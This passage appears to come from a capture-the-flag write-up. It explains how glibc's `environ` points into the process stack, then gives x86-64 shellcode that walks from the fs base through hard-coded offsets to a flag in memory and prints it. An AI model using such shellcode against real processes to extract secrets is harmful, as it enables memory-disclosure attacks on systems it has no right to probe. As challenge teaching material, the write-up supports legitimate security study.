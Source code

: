 On dynamically-linked executables, in addition to the actual ELF file being `execve`-ed, the dynamic linker (usually `ld`) is also loaded, and it is the one who is first being executed upon process initialization. `ld` is responsible for loading additional `.so` files, such as `libc.so`, and transfers some of the information to them - specifically, the process environment it got from the stack.

This is needed as `libc` got the [`getenv(3)`](https://man7.org/linux/man-pages/man3/getenv.3.html) API (which means it should have access to the environment). Specifically, `glibc` (GNU C Library - the one used here and on most desktop Linux distributions), saves a global variable called `environ` - which points to the environment at the bottom of the process stack. This is just we need! A place in `libc` which points to stack.



### Putting it all together

So, the grand plan to solve the challenge without using any syscalls:

1. Find `libc` from `fs` (usually - `fs:0` contains the base address of `fs` itself).
2. From there, find `environ` in `libc`, and thus the process stack.
3. Search the stack in order to find the pointer to the memory allocation containing the flag.
4. ???
5. PROFIT

Or, in assembly ([full file](solution/shellcode/impossible/solution.S)):

```assembly
#include <sys/syscall.h>
.intel_syntax noprefix
.global _start
_start:
    # Get 'fs' base
    mov r12, fs:0

    # Diff between TLS and environ - 0x3f40
    # Get a pointer to the stack from environ
    mov r12, [r12-0x3f40]

    # On the stack, there is a pointer that points to the flag
    # (Diff between environ and the flag - 0x240)
    mov r12, [r12-0x240]

    # Write flag to 'stdout'
    # (well, we must print it somehow)
    mov rdi, 1      # STDOUT
    mov rsi, r12    # flag pointer
    mov rdx, 128    # flag length
    mov rax, __NR_write
    syscall
```

Of course, theoretically, we don't know the `libc` version and offsets on the server - so we must develop something more complex that will use clever heuristics to deduce all the offsets.
But fortunately, the same shellcode that worked on our PC also worked successfully on the server - first try!
